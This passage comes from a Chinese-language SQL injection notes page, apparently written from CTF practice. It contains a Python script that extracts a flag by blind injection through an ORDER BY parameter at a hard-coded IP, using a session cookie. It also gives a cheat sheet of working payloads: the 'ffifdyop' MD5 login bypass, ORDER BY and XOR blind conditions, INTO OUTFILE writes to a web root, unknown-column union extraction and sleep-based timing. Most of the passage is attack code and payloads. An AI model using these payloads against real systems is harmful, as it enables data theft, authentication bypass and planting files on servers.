 
<span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> range(<span class="hljs-number">1</span>,<span class="hljs-number">100</span>):
    dichotomie(<span class="hljs-number">32</span>,<span class="hljs-number">127</span>,i)
<span class="hljs-keyword">print</span> string


</code></pre>
<pre class="prettyprint"><code class=" hljs lua">import requests
cookies={
        <span class="hljs-string">'PHPSESSID'</span>: <span class="hljs-string">'i6vl5rbtr5r8gsiu5cl6bfi8g7'</span>
}


<span class="hljs-built_in">string</span> = <span class="hljs-string">''</span>
<span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> range(<span class="hljs-number">1</span>,<span class="hljs-number">33</span>):
    <span class="hljs-keyword">for</span> j <span class="hljs-keyword">in</span> range(<span class="hljs-number">32</span>,<span class="hljs-number">127</span>):
        url=<span class="hljs-string">'http://202.120.7.197/app.php?action=search&amp;keyword=&amp;order=if(substr((select(flag)from(ce63e444b0d049e9c899c9a0336b3c59)),{},1)like({}),price,name)'</span>.format(str(i),hex(j))
        s=requests.get(url=url , cookies=cookies)
        content=s.content
        <span class="hljs-keyword">if</span> content.find(<span class="hljs-string">'5'</span>) == <span class="hljs-number">102</span> <span class="hljs-keyword">and</span> <span class="hljs-string">'%'</span> != chr(j) :
            <span class="hljs-built_in">string</span>+=chr(j)
            <span class="hljs-keyword">break</span>
    <span class="hljs-built_in">print</span> <span class="hljs-built_in">string</span> </code></pre>
<h2 id="4md5注入">（4）MD5注入</h2>
<pre class="prettyprint"><code class="language-sql hljs ">$sql = "<span class="hljs-operator"><span class="hljs-keyword">SELECT</span> * <span class="hljs-keyword">FROM</span> admin <span class="hljs-keyword">WHERE</span> pass = <span class="hljs-string">'".md5($password,true)."'</span><span class="hljs-string">";</span></span></code></pre>
<p>md5($password,true)将MD5值转化为了十六进制 <br>
思路比较明确，当md5后的hex转换成字符串后，如果包含 ‘or’ 这样的字符串，那整个sql变成</br></p>
<pre class="prettyprint"><code class="language-sql hljs "><span class="hljs-operator"><span class="hljs-keyword">SELECT</span> * <span class="hljs-keyword">FROM</span> admin <span class="hljs-keyword">WHERE</span> pass = <span class="hljs-string">''</span><span class="hljs-keyword">or</span><span class="hljs-string">'6&lt;trash&gt;'</span></span></code></pre>
<p>提供一个字符串：ffifdyop</p>
<h2 id="5order-by-name-注入">（5）order by name 注入</h2>
<p>order by name id <br>
id是一个注入点 <br>
可以利用if语句进行注入</br></br></p>
<p><code>order by name ,if(1=1,1,select 1 from information_schema.tables)</code> <br>
如果为假则执行第二条语句，要么报错要么没有返回值。这属于盲注的一种</br></p>
<h2 id="6运算符注入">（6）运算符注入</h2>
<p><code>select * from yz where a=''^'123'^'12'</code> <br>
<code>select * from yz where a=''^(substr('asd',1,1)&lt;'z')^1;</code></br></p>
<p>都可以作为盲注的条件语句</p>
<h2 id="7文件写入">（7）文件写入</h2>
<p>SQL语句 +   INTO OUTFILE ‘\var\www\html\1.txt’</p>
<h2 id="8-未知字段名注入">（8） 未知字段名注入</h2>
<p><code>select c from (select * from yz union select 1,2,3</code>c<code>)x;</code></p>
<h2 id="9空数据延时注入">（9）空数据延时注入</h2>
<p><code>select * from test where 1 and (select 1 from(select sleep(1))x);</code></p></hr></hr></div>
